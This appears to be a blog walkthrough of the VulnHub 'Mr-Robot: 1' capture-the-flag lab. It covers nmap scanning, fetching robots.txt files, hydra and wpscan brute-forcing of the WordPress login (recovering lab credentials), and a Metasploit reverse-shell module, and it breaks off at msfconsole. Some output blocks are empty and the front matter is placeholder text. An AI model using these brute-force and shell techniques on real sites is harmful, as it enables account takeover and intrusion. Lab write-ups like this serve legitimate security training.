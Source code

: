 ```yaml
---
layout: post
title: "Mr. Robot"
date: 2022-04-10 20:50:57 +0200
categories: VulnHub
tags: VulnHub Walkthrough Security Tag1 Tag2 Tag3 Tag4 Tag5 Tag6 Tag7 Tag8 Tag9
excerpt: "Lorem ipsum dolor sit amet, consectetur adipiscing elit. Cras nulla nisi, gravida eget lacus sed, feugiat rhoncus lectus. Maecenas condimentum rutrum dolor, ut ultrices risus tempor vel. Mauris sed iaculis elit, id efficitur nulla. Morbi vitae purus et eros venenatis hendrerit quis non nibh. Suspendisse est turpis, ultricies et ipsum et, semper tincidunt ex. Phasellus accumsan enim nec arcu mollis ultricies. Suspendisse congue mi diam, ut auctor turpis faucibus ut."
---
```


[Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/) has 3 flags to find.

## Preparation

The virtual machines are placed onto the same isolated internal network where they can only communicate with each other.

On the isolated internal network, a VirtualBox DHCP server assigns IP addresses to the machines:

```
vboxmanage dhcpserver add --network=intnet --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```

The **Kali** machine received the IP address `10.38.1.110`.

Launching **Mr. Robot**, we're presented with a login screen that cannot be bypassed as the login credentials aren't known.

## Enumeration

### Nmap

**Nmap** can be used to discover the vulnerable machine on the network:

```sh
kali@kali$ nmap -sS -T4 10.38.1.110-120
```

```

```

**Nmap** found the vulnerable machine and reported it with the IP address `10.38.1.111` and with TCP ports `80` (http) and `443` (https) open.

Looking up `10.38.1.111` in a web browser, we're presented with the clone of the promotion website of the Mr. Robot TV series.

## 1st Flag

**Nikto** can be used to gather further information about the web server.

```

```

1. The server leaks inodes via ETags and a header has been found with file **/robots.txt**

```

```

  2. The server is running **Wordpress**

```

```

> A [robots.txt](https://developers.google.com/search/docs/advanced/robots/intro) file tells search engine crawlers which URLs the crawler can access on your site.
> This is used mainly to avoid overloading your site with requests; it is not a mechanism for keeping a web page out of Google.

**robots.txt** indicates that the server doesn't have an user agent but it has two files:

- fsocity.dic
- key-1-of-3.txt

**wget** can be used to download the files:

```sh
kali@kali$ wget 10.38.1.111/fsocity.dic
kali@kali$ wget 10.38.1.111/key-1-of-3.txt
```

```sh
kali@kali$ cat key-1-of-3.txt

```

## 2nd Flag

As SSL isn't enabled on the Wordpress login page, it may be bruteforced with the downloaded dictionary file.

`fsocity.dic` contains duplicated entries that should be removed.

```sh
kali@kali$ cat fsocity.dic | sort -u | uniq > wordlist.dic
```

The word count of the dictionary has decreased from `858160` to `11451`.

```
kali@kali$ wc -l fsocity.dic
858160 fsocity.dic
```

```
kali@kali$ wc -l wordlist.dic
11451 wordlist.dic
```

To start the bruteforce attack, we need to intercept an [http POST request](<https://en.wikipedia.org/wiki/POST_(HTTP)>) in [Burp Suite](https://portswigger.net/burp).

To do that, a manual proxy must be configured in the browser and Burp Suite should have the same Proxy Listener set:

- HTTP Proxy: `127.0.0.1`
- Port: `8080`

In the intercepted POST request - that has been sent to the server - we're looking for the `log`, `pwd`, and the `wp-submit` fields.

**hydra** can be used to guess the username:

```sh
kali@kali$ hydra -V -L fsocity.dic -p 123 10.38.1.111 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

- `-V` — Verbose
- `-L fsocity.dic` — Define dictionary
- `-p 123` — Random unique password
- `10.38.1.111` — IP of the vulnerable machine
- `http-post-form` — An http POST form is being bruteforced
- `/wp-login.php` — Path where the form is located
- `log=^USER^&pwd=^PASS&wp-submit=Log+In` — POST parameters to send, including placeholders
- `F=Invalid Username` — Consider an attempt as failure if the response contains the text "Invalid Username".

### Hydra

**hydra** has found 3 possible usernames:

```sh
[80][http-post-form] host: 10.38.1.111 login: elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: Elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: ELLIOT password: 123
```

#### Wpscan

**wpscan** can be used to find additional WordPress vulnerabilities and to bruteforce the password using the word list.

```sh
kali@kali$ wpscan --url 10.28.1.111 --passwords /home/kali/mrrobot/wordlist.dic --usernames Elliot
```

**wpscan** has found several outdated plugins and one valid username - password pair.

```sh
[+] performing password attach on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot - / ER28-0652
All Found
Progress Time: 00:00:19 <========================================================================

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```

### Metasploit

**Metasploit** [WordPress Admin Shell Upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module creates a small WordPress plugin that connects back to the attacking machine and spawns a reverse shell.

```sh
kali@kali$ msfconsole
```

